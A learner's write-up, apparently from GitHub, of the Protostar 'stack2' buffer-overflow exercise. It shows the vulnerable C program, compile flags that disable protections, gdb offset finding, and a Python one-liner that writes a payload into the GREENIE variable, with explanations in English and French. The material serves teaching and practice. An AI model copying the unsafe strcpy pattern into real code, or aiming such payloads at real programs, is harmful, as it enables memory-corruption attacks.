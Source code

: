 #Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

# Explanation

1. **Compile**
```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack2.c -o Stack2
```

2. Find
```bash
#Run in gdb
gdb ./Stacktwo
break main
run
```
![Inital](Images/InitialGDB.png)

```
print &buffer
print &modified
print (char *)&modified - (char *)&buffer 
64   #Our offset
```
![Offset](Images/OffsetResult.png)
-------------------------------------------------------------------

- For this exercise I need to change `modified` to `0x0d0a0d0a` from a Env variable called GREENIE

```bash
#No space in zsh or else error for daaaaays
#"<I" means “pack a 32-bit unsigned int in little-endian.” That yields exactly the 4-byte sequence
export GREENIE="$(python3 -c 'import sys,struct; sys.stdout.buffer.write(b"A"*64 + struct.pack("<I",0x0d0a0d0a))')"

#Print env into .bin
printf "%s" "$GREENIE" > stacktwo.bin

#Verify
printf "%s" "$GREENIE" | hexdump -C
wc -c stacktwo.bin

#run code
./Stacktwo

#SUCCESS
```
![Success1](Images/Ste1Success.png)
![Success2](Images/Ste2Success.png)
![Success3](Images/Ste3Success.png)
![Success4](Images/Ste4Success.png)

------------------------------------------------------------------

# What I learned :

Every time I run a program from shell, the shell “hands off” a copy of its environment to that new process. By doing:

```bash
export GREENIE="…your payload…"
./stack2
```

Telling the shell:
1. “Attach an environment variable called `GREENIE` with this value to _every_ process I launch from now on.”
2. When running `./stack2`, the kernel creates a new process whose _environment block_ includes `GREENIE`.
3. Inside C code, this line…

```c
variable = getenv("GREENIE");
```
- …looks up the `GREENIE` entry in that environment block and returns a pointer to its bytes.
- You then do `strcpy(buffer, variable)`, which copies _exactly_ what you set in `GREENIE` into `buffer` and (overflow!) into `modified`.

# Ce que j’ai appris

Chaque fois que je lance un programme depuis le shell, celui-ci “transmet” une copie de son environnement au nouveau processus. En faisant :

```bash
export GREENIE="…your payload…"
./stack2
```

Je demande au shell :

1. « Ajoute une variable d’environnement nommée GREENIE avec cette valeur à tout processus que je lance à partir de maintenant. »
2. Au démarrage de ./stack2, le noyau crée un nouveau processus dont le bloc d’environnement contient GREENIE.
3. Dans le code C, cette ligne :

```bash
variable = getenv("GREENIE");
```

- …cherche l’entrée `GREENIE` dans ce bloc d’environnement et renvoie un pointeur vers ses octets.
- Ensuite, `strcpy(buffer, variable)` copie exactement la valeur de GREENIE dans buffer et (overflow !) jusqu’à écraser modified.
